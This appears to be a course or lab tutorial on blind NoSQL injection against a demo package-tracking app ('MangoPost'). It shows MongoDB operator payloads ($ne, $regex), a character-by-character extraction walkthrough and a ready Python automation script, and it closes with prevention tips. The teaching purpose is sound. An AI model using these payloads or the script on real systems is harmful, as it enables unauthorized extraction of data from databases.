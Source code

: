 # Blind Data Extraction

Blind NoSQL injection occurs when we can inject queries but cannot directly see the results. Instead, we must infer information from the application's behavior (true/false responses).

## MangoPost Example

A package tracking application where you enter a tracking number to get shipment information.

### Vulnerable Query

The application sends JSON data (not URL-encoded) and likely queries:

```javascript
db.tracking.find({
    trackingNum: <trackingNum from JSON>
});
```

### Oracle-Based Extraction

We can ask the server true/false questions and infer data from responses:

**True response** (package exists):
```json
{"trackingNum": {"$ne": "x"}}
```

**False response** (no package):
```json
{"trackingNum": {"$eq": "x"}}
```

## Character-by-Character Extraction

### Step 1: Find Any Package

Start with a regex that matches all documents:

```json
{"trackingNum": {"$regex": "^.*"}}
```

This returns Franz Pflaumenbaum's package info.

### Step 2: Extract First Character

Test each possible first character:

```json
{"trackingNum": {"$regex": "^0.*"}}  // No match
{"trackingNum": {"$regex": "^1.*"}}  // No match  
{"trackingNum": {"$regex": "^2.*"}}  // No match
{"trackingNum": {"$regex": "^3.*"}}  // Match! First char is '3'
```

### Step 3: Extract Second Character

Continue with the known first character:

```json
{"trackingNum": {"$regex": "^30.*"}}  // No match
{"trackingNum": {"$regex": "^31.*"}}  // No match
{"trackingNum": {"$regex": "^32.*"}}  // Match! Second char is '2'
```

### Step 4: Continue Until Complete

Repeat the process for each character position:

```json
{"trackingNum": {"$regex": "^32A.*"}}   // Third char is 'A'
{"trackingNum": {"$regex": "^32A7.*"}}  // Fourth char is '7'
{"trackingNum": {"$regex": "^32A76.*"}} // Fifth char is '6'
{"trackingNum": {"$regex": "^32A766.*"}} // Sixth char is '6'
```

### Step 5: Verify Complete String

Use `$` to mark end of string:

```json
{"trackingNum": {"$regex": "^32A766$"}}  // Verify complete tracking number
```

## Character Set Considerations

When extracting data, consider:

- **Numbers**: 0-9
- **Letters**: A-Z, a-z  
- **Special characters**: Based on application context
- **Case sensitivity**: Test both uppercase and lowercase

## Automation Script Template

```python
import requests
import string

def blind_extract(base_url, target_regex):
    """Extract data using blind NoSQL injection"""
    characters = string.ascii_letters + string.digits + "_-"
    extracted = ""
    
    while True:
        found = False
        for char in characters:
            test_regex = f"^{extracted}{char}.*"
            payload = {"trackingNum": {"$regex": test_regex}}
            
            response = requests.post(base_url, json=payload)
            
            if "package info" in response.text:  # Success indicator
                extracted += char
                found = True
                print(f"Found: {extracted}")
                break
        
        if not found:
            break
    
    return extracted
```

## Key Points

- **Oracle responses**: Use application behavior to infer data
- **Regex anchoring**: Use `^` for start, `$` for end of string
- **Character sets**: Test numbers, letters, and special characters
- **Automation**: Script the process for efficiency
- **Verification**: Always verify complete strings with `$` anchor

## Prevention

- Validate and sanitize all user input
- Use parameterized queries
- Implement rate limiting to prevent automated attacks
- Log and monitor suspicious query patterns
- Consider using MongoDB's built-in security features
